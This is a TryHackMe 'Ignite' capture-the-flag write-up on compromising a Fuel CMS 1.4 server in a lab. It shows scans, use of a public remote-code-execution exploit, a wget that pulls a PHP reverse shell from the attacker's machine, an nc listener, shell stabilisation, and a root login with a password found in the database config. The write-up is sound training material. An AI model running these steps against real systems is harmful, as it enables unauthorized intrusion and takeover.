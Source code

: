 ```yaml
---
title: TryHackMe Ignite [CHALLENGE]
date: 2024-04-01 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png
---
```


A new start-up has a few issues with their web server.

## **Skills Needed**

Searching exploit, CMS, Privilege escalation, Database

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 07:09 EDT
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.65% done; ETC: 07:11 (0:00:20 remaining)
Nmap scan report for 10.10.164.210
Host is up (0.29s latency).
Not shown: 65217 closed tcp ports (conn-refused), 317 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.27 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

80 → HTTP

- Using Fuel CMS version 1.4
- Has a public exploit for remote code execution. CVE 2018-16763
- Using default credentials for the admin page
- Cannot upload php file

## **Enumeration**
---
### 80 HTTP

**Viewing the webpage.**

![Desktop View](/assets/images/ignite/cms.png){: width="972" height="589" }

Upon doing some manual enumeration, I found that robots.txt is accessible

![Desktop View](/assets/images/ignite/robots.png){: width="972" height="589" }

Inspecting the CMS website.

![Desktop View](/assets/images/ignite/inspect-cms.png){: width="972" height="589" }

Altohugh I am well aware that there is an existing admin directory, I still do some directory busting to be sure that I am not missing something.

**Using gobuster**

```go
gobuster dir -u http://10.10.164.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```
![Desktop View](/assets/images/ignite/gobuster.png){: width="972" height="589" }

Seems like it is the only page that is accessbile.

**Visiting the fuel admin page**

![Desktop View](/assets/images/ignite/admin-apge.png){: width="972" height="589" }

While exploring, I have found an upload page but it seems there is a filter that denies the php file extension.

![Desktop View](/assets/images/ignite/php-deny.png){: width="972" height="589" }

## **Gaining an Initial Foothold**

I've decided to search for a public exploit for Fuel CMS since we know the current version it's running, and we haven't found a way to upload a reverse shell yet.

Fortunately, I found one!

[Fuel CMS v1.4 public exploit](https://www.exploit-db.com/exploits/50477)

Download the exploit and execute using the command

```go
python3 <exploit-name> -u <http://IP>
```
![Desktop View](/assets/images/ignite/exploit-cms.png){: width="972" height="589" }

Upon directory listing, we can see the "robots.txt" file, which we were able to access earlier during manual enumeration. This implies that we can also execute a file once the browser client sends a "GET" request to the server. Therefore, we can obtain a reverse shell by downloading a PHP reverse shell from our local machine.

For attacking machine

```bash
python3 -m http.server
```
For target machine

```bash
wget http://10.13.50.82:8000/php-reverse-shell.php
```

![Desktop View](/assets/images/ignite/rce.png){: width="972" height="589" }

Once the PHP reverse shell has been uploaded, encode it to the browser to make a GET request to the server, enabling us to obtain a reverse shell. Don't forget to set up the listener as specified in the PHP reverse shell script.

```bash
nc -lnvp 1234
```

```bash
10.10.164.210/php-reverse-shell.php
```
![Desktop View](/assets/images/ignite/rev-shell.png){: width="972" height="589" }

Upon checking, python3 is installed in the machine. That means we can stabilize our dumb shell!

![Desktop View](/assets/images/ignite/dumb-shell.png){: width="972" height="589" }

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

**Ctrl + Z [Background Process]**
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/ignite/stable-shell.png){: width="972" height="589" }

> Do not forget to find the flag
{: .prompt-danger }

## **Privilege Escalation**
---
After falling down the rabbit hole of finding some ways to root the box, I decided to take a look again at the homepage. Fortunately, setting up the database for the CMS has instructions where we can access it, which probably contains default credentials.

![Desktop View](/assets/images/ignite/install.png){: width="972" height="589" }

![Desktop View](/assets/images/ignite/db.png){: width="972" height="589" }

Viewing the file

![Desktop View](/assets/images/ignite/creds.png){: width="972" height="589" }

Let us try switching root

```bash
su root
mememe
```

![Desktop View](/assets/images/ignite/root.png){: width="972" height="589" }

> Do not forget to find the root flag
{: .prompt-danger }

## **Take Away Concepts**
- Read the default page of CMS — it may contain some useful information and default credentials. It could be an instruction of where to access sensitive information that the user haven’t changed.


